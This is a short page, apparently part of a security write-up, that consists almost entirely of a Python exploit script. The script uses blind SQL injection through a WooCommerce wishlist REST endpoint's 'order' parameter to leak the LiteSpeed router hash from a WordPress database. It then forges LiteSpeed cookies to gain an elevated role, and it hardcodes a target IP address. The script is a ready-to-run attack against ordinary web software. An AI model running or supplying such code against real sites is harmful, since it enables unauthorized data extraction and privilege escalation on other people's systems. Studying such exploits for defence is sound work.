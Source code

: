 ### Exploit Script

This Python script performs the SQL injection to leak the `litespeed.router.hash` and then uses that hash to escalate privileges:

```python
import string
import asyncio
import httpx

# Define the target URL
# url = "http://0.0.0.0:9096/"
url = "http://100.25.255.51:9096/"
known = ""

# Asynchronous function to send POST requests
async def send_request(char, known):
    to_search = f"{known + char}%".encode().hex()

    data = {
        "rest_route": "/wc/v3/wishlist/e676f1/get_products",
        "order": f",extractvalue(null,concat((select 0 from dual where (select option_value from wp_options where option_name = 0x{'litespeed.router.hash'.encode().hex()}) like binary 0x{to_search}),0x01)) -- -",
    }

    async with httpx.AsyncClient(timeout=100) as client:
        response = await client.get(url, params=data)
        return char, response.text

# Main asynchronous function to control the process
async def sql_injection():
    global known
    while True:
        if len(known) == 6:
            break
        tasks = []
        for char in "0123456789abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ":
            tasks.append(send_request(char, known))

        responses = await asyncio.gather(*tasks)

        for char, response_text in responses:
            if "product_id" not in response_text:
                known += char
                print(f"Found character: {char}, known string so far: {known}")
                break

    with httpx.Client(base_url=url) as ht:
        ht.cookies.set("litespeed_hash", known)
        ht.cookies.set("litespeed_role", "100")
        rs = ht.get("/")
        print(rs.text)

# Run the async process
asyncio.run(sql_injection())

```
